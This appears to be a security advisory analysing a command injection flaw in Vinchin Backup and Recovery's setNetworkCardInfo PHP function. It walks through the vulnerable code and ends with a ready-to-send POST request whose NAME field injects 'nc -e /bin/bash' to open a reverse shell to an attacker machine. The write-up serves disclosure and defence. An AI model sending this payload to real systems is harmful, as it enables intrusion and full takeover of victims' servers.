

### Deep Dive into the `setNetworkCardInfo` Function Vulnerability in Vinchin Backup and Recovery



#### Vulnerability Overview:

The `setNetworkCardInfo` function in Vinchin Backup and Recovery's software has a significant security vulnerability. This function is designed to update network card information.

#### Function Analysis:

**Function Prototype**:
```php
public function setNetworkCardInfo($params)
```

1. **Parameter Collection**:
   The function retrieves the `NAME` parameter from the request and stores it in `$name`:
   ```php
   $name = $params['NAME'];
   ```

2. **Device Name Assignment**:
   The `NAME` parameter is assigned to the `DEVICE` key in `$params`. This means the network device's name is controlled by the user-supplied `NAME` value:
   ```php
   $params['DEVICE'] = $name;
   ```

3. **Constructing Network Card Path**:
   The function constructs a file path that includes the device name provided in `NAME`:
   ```php
   $networkCardPath = Xphp::$_config['NETWORKCARD']['path'] . Xphp::$_config['NETWORKCARD']['prefix'] . $name;
   ```
   It uses the `Xphp::$_config['NETWORKCARD']` configuration to form this path.

4. **Executing Command**:
   The constructed path is used in a command to read network card configuration file contents:
   ```php
   $cmd = "cat " . $networkCardPath;
   exec($cmd, $info);
   ```
   The vulnerability arises here as the `exec` function is used to execute a command containing user-controlled input, leading to a command injection vulnerability.

#### Exploitation:

This vulnerability allows an attacker to inject commands via the `NAME` parameter.

#### Exploit Example:

An attacker can craft a POST request to exploit this vulnerability:

```
POST /api/ HTTP/1.1
Host: 192.168.1.9
Cookie: BackupSystem=cqle200rsnt5a7r0ug4v9vl9bd;
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=setNetworkCardInfo&p={"NAME":";nc -e /bin/bash 192.168.1.5 1338","other_params":"..."}
```

In this request, the attacker has appended a command (`nc -e /bin/bash 192.168.1.5 1338`) to the `NAME` parameter to open a reverse shell to the attacker's machine.

#### Conclusion:

The `setNetworkCardInfo` function's vulnerability highlights the dangers of using user-supplied input in system commands without proper validation and sanitization. This vulnerability poses a severe risk and can lead to total system compromise. 

Vinchin should prioritize fixing this vulnerability by implementing robust input validation mechanisms. Users of Vinchin Backup and Recovery should be vigilant and apply any provided patches or updates to mitigate this security risk.